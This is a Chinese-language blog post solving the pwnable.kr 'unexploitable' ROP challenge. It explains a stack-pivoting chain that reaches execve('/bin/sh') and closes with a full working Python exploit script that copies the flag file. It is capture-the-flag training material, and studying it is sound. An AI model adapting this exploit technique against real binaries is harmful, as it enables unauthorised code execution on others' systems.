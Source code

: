```yaml
---
title: unexploitable
author: rk700
layout: post
tags:
  - exploit
  - pwnable.kr
---
```


这次是500分的rop

{% highlight c %}
#include <stdio.h>
void main(){
        printf("Not all the bugs are exploitable.\n");
        printf("Try to exploit this one and you will see.\n");
        printf("Or.. maybe you can prove otherwise :)\n");

        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
{% endhighlight %}

溢出很明显。但单看C代码，信息量太小，必须看汇编。

由于开了NX和ASLR，只能ROP了。由于在`0x40056f`处有`syscall`，所以我的思路是执行`execve("/bin/sh",["/bin/sh",NULL],...)`

具体地，我跳了好几次

1. 溢出，返回再次`read`，而且把`rbp`设到可写的`0x601xxx`那里；
2. 由于`rbp`在`data`段，这次的`read`，可以确定所写东西的地址。我们把第3次用到的栈上的数据写到这里。由于上次的`rbp`可控，当执行完`read`到`leave;ret`时 ，我们让他跳到第3次`read`
3. 这次是将字符串`/bin/sh`和地址写到固定地址。这样就把`execve`的参数准备好了。这次结束后，返回到`0x4005f6`
4. 通过一系列`mov ...`，把各个寄存器的值设好。然后返回`0x4005e0`
5. 这里就通过设`rdx`等寄存器，`call qword [r12+rbx*8]`来执行最终的`execve`

大体思路就是这样。然后比较麻烦的是，我不知道怎么与他交互……pwntool用不了，python还是不熟……于是最后用的是将flag文件拷贝一份为可读的……

下面是代码

{% highlight python %}
#!/usr/bin/env python2

from struct import *
import subprocess
import time

sh = "/bin/sh\x00"
cmd = "install -m666 /home/unexploitable/flag /tmp/flag1\n"

data1 = 0x601100
data2 = 0x601200

payload1 = "A"*0x10
payload1 += pack("<Q", data1+0x10) #saved rbp
payload1 += pack("<Q", 0x40056a) #ret addr: ...; read

#data1
payload2 = "B"*0x10
payload2 += pack("<Q", data2+0x10) #saved rbp
payload2 += pack("<Q", 0x40056a) #ret addr: ...; read
payload2 += "B"*0x8
payload2 += pack("<Q", 0x4005f6)#ret addr: mov reg ...
payload2 += pack("<Q", 0x40056f) #0f05 syscall
payload2 += pack("<Q", 0)#rbx
payload2 += pack("<Q", 0)#rbp
payload2 += pack("<Q", data1+0x10+0x8+0x8+0x8+0x8)#r12
payload2 += pack("<Q", data2+0x10+0x8+0x8)#r13 -> edi -> '/bin/sh'
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r14 -> rsi -> argv
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r15 -> rdx -> envp
payload2 += pack("<Q", 0x4005e0) #ret addr: mov r13 edi; ...

#data2
payload3 = "C"*0x10
payload3 += pack("<Q", data1+0x20) #saved rbp
payload3 += pack("<Q", 0x400585)#ret addr: leave; ret
payload3 += sh
payload3 += pack("<Q", data2+0x10+0x8+0x8)
payload3 += pack("<Q", 0)
payload3 += "C"*(0x3b-0x10-0x8-0x8-len(sh)-0x8-0x8)


exe = subprocess.Popen(["/home/unexploitable/unexploitable"],stdin=subprocess.PIPE)
exe.stdin.write(payload1)
time.sleep(1)
exe.stdin.write(payload2)
time.sleep(1)
exe.stdin.write(payload3)
time.sleep(1)
print "======="
exe.stdin.write(cmd)
{% endhighlight %}
